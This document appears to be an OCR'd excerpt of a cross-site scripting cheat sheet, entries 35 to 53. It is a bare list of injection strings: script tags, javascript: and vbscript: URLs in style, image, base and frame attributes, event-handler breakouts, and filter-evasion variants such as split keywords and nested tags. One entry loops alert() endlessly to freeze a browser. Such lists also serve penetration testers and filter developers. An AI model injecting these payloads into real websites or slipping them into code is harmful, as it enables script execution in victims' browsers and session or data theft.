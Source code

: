 ```

35.<script>var var=1; alert(var)</script>

36.<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

37.<?='<SCRIPT>alert("XSS")</SCRIPT>'?>

38.<IMG SRC='vbscript:msgbox(\"XSS\")'>

39."onfocus=alert(document.domain)"><"

40.<FRAMESET><FRAME SRC=\"javascript:alert('XSS');\"></FRAMESET>

41.<STYLE>li {list-style-image:url(\"javascript:alert('XSS')\");}</STYLE><UL><LI>XSS

42.<br size=\"&{alert('xss')}\">

43.<scrscriptipt>alert(1)</scrscriptipt>

44."><BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

45.[color=red width=expression(alert(123))][color]

46.<BASE HREF="javascript:alert('XSS');//">

47.Execute(MsgBox(chr(88)&&chr(83)&&chr(83)))<

48."></iframe><script>alert(123)</script>

49.<body onLoad="while(true) alert('XSS');">

50."<marquee><img src=k.png onerror=alert(/xss/) />

51.<div style="background:url('javascript:')

52.<img src='java\nscript:alert(\"XSS\")'>

53.>'"><img src="javascript:alert('xss')">
```


